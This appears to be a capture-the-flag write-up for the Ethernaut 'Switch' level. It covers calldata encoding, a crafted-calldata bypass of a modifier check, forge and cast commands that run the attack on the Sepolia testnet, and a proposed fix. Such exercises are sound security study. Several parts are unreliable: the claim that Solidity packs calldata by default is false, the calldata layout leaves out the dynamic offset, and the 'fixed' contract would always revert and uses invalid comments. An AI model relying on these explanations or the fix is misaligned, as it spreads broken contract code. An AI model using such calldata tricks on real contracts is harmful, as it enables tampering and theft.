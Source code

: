 # Switch

Just have to flip the switch. Can't be that hard, right?

## CALLDATA

`CALLDATA` is a special area where the input data of a function call is stored. This data includes the function identifier (also known as the function selector) and any parameters passed to the function. The encoding of `CALLDATA` is crucial for the Ethereum Virtual Machine (EVM) to correctly identify and execute the intended function and handle its parameters.

### How CALLDATA is encoded

1. `Function selector`: The first `4 bytes` of `CALLDATA` are reserved for the function selector. This is derived from the first 4 bytes of the Keccak-256 hash of the function signature (e.g., `transfer(address,uint256)`). The function signature includes the function name and the parenthesized list of parameter types. The function selector allows the EVM to determine which function is being called.
2. `Parameters encoding`: After the function selector, the parameters of the function call are encoded. Solidity uses the `Ethereum Contract ABI (Application Binary Interface)` specification for encoding these parameters. The encoding of parameters is done as follows:
   1. `Elementary types`: Elementary types like uint256, address, etc., are encoded as 32 bytes, with more significant bytes added to the left if necessary. For example, an address which is 20 bytes long will have 12 leading zero bytes when encoded.
   2. `Dynamic types`: Types such as bytes and string, whose size can change, are encoded differently. First, the offset to the start of their data is encoded as a 32-byte number, followed by the length of the data (also as a 32-byte number), and then the actual data. The offset is calculated from the start of the function arguments.
   3. `Arrays and Structs`: For arrays and structs, each element or field is encoded sequentially, following the rules for their types. Fixed-size arrays and structs are encoded inline, while dynamic arrays include an offset to the start of their data, similar to dynamic types.
3. `Packed vs. Unpacked`: By default, Solidity uses "packed" encoding for `CALLDATA` to save space and gas. However, when interacting with contracts externally (e.g., via web3.js or ethers.js), the `ABI-encoded` data is typically "unpacked" for readability and standardization purposes.
4. Example: Consider a function call `transfer(address recipient, uint256 amount)`. The `CALLDATA` for this call would start with the function selector for `transfer(address,uint256)`, followed by the 32-byte encoded `address` of the recipient (with leading zeros), and then the 32-byte encoded `amount`.

### calldatacopy

The `calldatacopy` instruction in Solidity's inline assembly is used to copy data from the call data to memory. The calldatacopy instruction is particularly useful for operations that require direct manipulation or inspection of the raw call data, which can be more gas-efficient in certain scenarios. Here's a breakdown of how calldatacopy works:

It's often used in low-level operations, such as when a contract needs to dynamically determine which function to call or when processing arbitrary-length data that doesn't fit neatly into Solidity's type system.

`calldatacopy` is a powerful tool for low-level manipulation of call data in Solidity contracts, enabling efficient data handling and custom processing scenarios. However, its use requires careful consideration of safety, complexity, and compatibility aspects.

- Syntax: calldatacopy(t, f, s)

    t (target): The starting position in memory where the data should be copied to.
    f (from): The starting position in the call data from where to begin copying.
    s (size): The number of bytes to copy from the call data to memory.

```bash
assembly {
    calldatacopy(selector, 68, 4) // grab function selector from calldata
}
```

This line copies 4 bytes (the size of a function selector) from the call data starting at position 68 into the `selector` variable in memory. The choice of position 68 assumes a specific layout of the call data, likely based on the structure of the transaction being sent to `flipSwitch`.

## Vulnerability

```bash
✗ cast sig "flipSwitch(bytes)"
0x30c13ade

cast sig "turnSwitchOff()"
0x20606e15

✗ cast sig "turnSwitchOn()"
0x76227e12
```

To set up the calldata for calling `flipSwitch(bytes memory _data)` in a way that passes the `onlyOff` modifier's check, you need to construct the calldata so that it includes the function selector for `flipSwitch(bytes memory _data)` followed by the necessary padding and the embedded call to `turnSwitchOff()`, which has the selector 0x20606e15. The `onlyOff` modifier checks for this selector at an offset of 64 bytes into the calldata.

1. Start with the function selector for `flipSwitch(bytes memory _data)`: 0x30c13ade.
2. `Add padding to reach the offset for the embedded function call`: Since Solidity uses `32-byte (256-bit) slots` and the function selector is at the beginning, followed by the length of the bytes array (also `32 bytes`), the next part of the calldata (the actual bytes array content) starts at byte 64. This is where the embedded function selector needs to be placed.
3. Include the function selector for `turnSwitchOff(): 0x20606e15`. This is the value that the `onlyOff` modifier checks for at the 64-byte offset.

```bash
# Calldata layout (32-byte slots)
# 0x30c13ade                                                       -> function selector for flipSwitch(bytes memory data)
# 0000000000000000000000000000000000000000000000000000000000000004 -> length of the bytes array (in bytes)
# 0000000000000000000000000000000000000000000000000000000000000000 -> padding to reach the 64-byte offset
# 20606e15                                                         -> function selector for turnSwitchOff()
```

## Attack

1. Deploy `SwitchAttack`.

```bash
forge script script/DeploySwitchAttack.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# make deploy ARGS="--network sepolia"
# https://sepolia.etherscan.io/address/0x70aD9fB0D0e2d9C82Bcf4DB46E6BdD2Beb5c7157
```

3. Attack

```bash
cast send $CONTRACT_ADDRESS "attack()" --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy

# https://sepolia.etherscan.io/tx/0xf1235f7755a33fcde34225c518755fe83d873519f671f43e6a95bb9a2e521744
```

## Fix

1. `Use explicit function calls instead of dynamic calls`: Replace the dynamic call in `flipSwitch` with explicit function calls. This prevents an attacker from crafting calldata that bypasses the contract's intended logic.

2. `Strengthen the onlyOff modifier`: Ensure that the `onlyOff` modifier checks not just for the presence of a specific function selector but also validates the overall structure and intent of the call.

3. `Validate the entire calldata`: Instead of just checking a portion of the calldata, validate the entire calldata to ensure it matches expected patterns for legitimate use cases.

4. `Use a more secure way to manage contract state`: Instead of allowing any external call to change the state, restrict state changes to predefined functions that are protected by appropriate access control mechanisms.

```bash
contract Switch {
    bool public switchOn; // switch is off
    bytes4 private constant OFF_SELECTOR = bytes4(keccak256("turnSwitchOff()"));
    bytes4 private constant ON_SELECTOR = bytes4(keccak256("turnSwitchOn()"));

    modifier onlyThis() {
        require(msg.sender == address(this), "Only the contract can call this");
        _;
    }

    # This modifier is no longer needed if we're not using dynamic calls
    # modifier onlyOff() {
    #     require(!switchOn, "Switch must be off");
    #     _;
    # }

    function flipSwitch(bool turnOn) public {
        require(!switchOn, "Switch must be off");
        if (turnOn) {
            turnSwitchOn();
        } else {
            turnSwitchOff();
        }
    }

    function turnSwitchOn() private onlyThis {
        switchOn = true;
    }

    function turnSwitchOff() private onlyThis {
        switchOn = false;
    }
}
```
